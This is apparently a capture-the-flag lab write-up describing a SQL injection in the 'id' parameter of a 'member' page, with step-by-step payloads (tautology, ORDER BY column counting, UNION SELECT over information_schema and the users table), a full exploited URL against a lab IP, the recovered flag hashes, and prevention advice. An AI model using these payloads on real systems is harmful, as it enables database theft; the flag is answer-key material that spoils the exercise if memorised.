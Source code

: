# SQL Injection Vulnerability in Member Page

## Overview

A **SQL Injection** vulnerability was identified on the `member` page. By manipulating the `id` parameter, an attacker can retrieve sensitive data (such as user credentials and database structure) from the underlying database.

## Steps to Reproduce

1. **Initial Test**

   - **Payload**: `2 OR 1=1 --`
   - **Goal**: Bypass logic to force the query to always return all users.

2. **Column Enumeration**

   - **Payload**: `2 ORDER BY 2 --`
   - **Goal**: Determine the number of columns.
   - Testing with `ORDER BY 3` triggered an error, confirming there are only 2 columns in the original query.

3. **Database Schema Enumeration**

   - **Payload**:
     ```sql
     1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns --
     ```
   - **Goal**: Enumerate all tables and columns in the database.
   - `1=2` ensures the initial query returns no rows, allowing the `UNION` part to expose database schema information.

4. **Extracting Sensitive Fields**

   - **Payload**:
     ```sql
     1 AND 1=2 UNION SELECT Commentaire, countersign FROM users --
     ```
   - **Goal**: Retrieve sensitive fields from the `users` table.

5. **Exploited URL**
   - **Payload** (URL-encoded):
     ```
     http://192.168.122.121/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+--&Submit=Submit#
     ```
   - **Parameter**: `id`
   - **Injection point**: `1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+--`

## Flag

- **Original**: `5ff9d0165b4f92b14994e5c685cdce28` (md5)
- **Converted**: `FortyTwo` (to convert in lower case)
- **To sha256**: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## How to Prevent SQL Injections

1. **Parameterized Queries / Prepared Statements**

   - Use parameterized queries to automatically sanitize user inputs instead of manually constructing SQL strings.

2. **Input Validation**

   - Validate and sanitize user inputs to allow only expected data formats (e.g., numeric values for IDs).

3. **Use of an ORM (Object-Relational Mapping)**

   - Rely on established frameworks (e.g., Hibernate, Entity Framework, Django ORM) that handle SQL queries safely.

4. **Least Privilege Principle**

   - Restrict database user privileges to the bare minimum needed.

5. **Regular Updates and Patches**
   - Keep your frameworks, libraries, and database software up to date to benefit from the latest security fixes.
